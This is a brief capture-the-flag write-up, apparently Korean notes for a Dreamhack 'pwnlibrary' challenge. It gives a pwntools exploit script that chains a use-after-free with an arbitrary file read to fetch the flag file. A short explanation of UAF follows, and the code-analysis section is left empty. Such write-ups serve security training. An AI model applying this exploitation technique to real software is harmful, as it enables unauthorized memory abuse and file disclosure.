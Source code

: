 # Payload
```python
from pwn import *

# context.log_level = 'debug'
p = remote(host = "host3.dreamhack.games", port=21401)

# borrow a book, index 1
p.recvuntil(b'[+] Select menu : ')
payload = b'1' # borrow a book
p.sendline(payload)
p.recvuntil(b'[+] what book do you want to borrow? : ')
payload = b'1' # theori theory
p.sendline(payload)

# return book, index 3
p.recvuntil(b'[+] Select menu : ')
payload = b'3'
p.sendline(payload)
p.recvuntil(b'[*] lastest book returned!')

# steal book, code 275, path : /home/pwnlibrary/flag.txt
p.recvuntil(b'[+] Select menu : ')
payload = b'275'
p.sendline(payload)
p.recvuntil(b'[+] whatever, where is the book? : ')
payload = b'/home/pwnlibrary/flag.txt'
p.sendline(payload)
p.recvuntil(b'[*] how many pages?(MAX 400) : ')
p.sendline(b'256')
p.recvuntil(b'[*] Oops.. cops take your book..')

# read book, use after free 
p.recvuntil(b'[+] Select menu : ')
payload = b'2'
p.sendline(payload)
payload = b'0'
p.sendline(payload)

p.interactive()
```
# 검색 키워드
- Use After Free
- (기능이지만) 임의 파일 읽기
# 해설
## 배경지식
- Use After Free
	- free만 해주면 해당 메모리는 재사용이 가능할 지 몰라도
	- 해당 위치를 가리키던 포인터 변수까지 null로 초기화를 해 줘야 UAF 취약점에 노출되지 않을 수 있다.
## 코드분석
- 